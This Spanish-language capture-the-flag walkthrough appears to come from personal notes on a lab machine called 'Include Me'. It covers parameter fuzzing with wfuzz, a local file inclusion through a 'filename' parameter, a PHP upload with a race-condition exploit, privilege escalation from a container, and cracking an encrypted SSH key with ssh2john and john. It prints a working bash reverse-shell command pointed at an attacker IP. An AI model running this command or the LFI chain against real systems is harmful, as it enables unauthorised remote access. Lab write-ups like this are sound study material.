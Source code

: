 Si seguimos analizando la web vemos que el título pone "Include Me" por lo que se nos puede ocurrir hacer *fuzzing* con `wfuzz` de parámetros en la URL por si hay alguna forma de conseguir un LFI:
![[Pasted image 20240821190548.png]]

Como podemos ver hay forma de incluir archivos en la web mediante el parametro "filename"
![[Pasted image 20240821190632.png]]

Por lo que si subimos un archivo PHP malicioso mediante POST a `info.php` vemos que nos da una ruta del archivo:
![[Pasted image 20240821190818.png]]

Así que si utilizamos el *exploit* indicando nuestro LFI y `/info.php` podremos entablarnos una reverse shell si el código es capaz de acontecer la condición de carrera. El payload utilizado es un codigo PHP que ejecuta este comando:
```bash
bash -c 'bash -i >& /dev/tcp/192.168.1.21/443 0>&1'
```

> [!NOTE] El exploit utilizando se encuentra en: [[#Python exploit Race Condition]]

![[Pasted image 20240821195929.png]]
![[Pasted image 20240821195938.png]]

Por lo tanto, hacemos el tratamiento de la TTY:
![[Pasted image 20240821200225.png]]
![[Pasted image 20240821200256.png]]

Si miramos en el directorio `/var/www/html` podemos ver la primera *flag*:
![[Pasted image 20240821201008.png]]

## Escalada de privilegios
Si mostramos la IP podemos ver que se trata de un contenedor, ya que no estamos en la máquina víctima:
![[Pasted image 20240821201229.png]]

Por lo que hay que buscar la manera de salir del contenedor. Si hacemos reconocimiento durante un rato podremos encontrar un archivo algo extraño en el directorio raíz llamado ".oldkeys.tgz":
![[Pasted image 20240821214139.png]]

Por lo que tenemos capacidad de lectura así que podemos extraerlo para ver lo que contiene:
![[Pasted image 20240821214310.png]]

Son unas claves SSH, pero como podemos ver esta encriptada:
![[Pasted image 20240821214359.png]]

Pero podemos intentar *crackearla*. Primeramente utilizando `ssh2john` para convertirla en un *hash* para posteriormente *crackearla* con `john`:
![[Pasted image 20240821215213.png]]
![[Pasted image 20240821215316.png]]
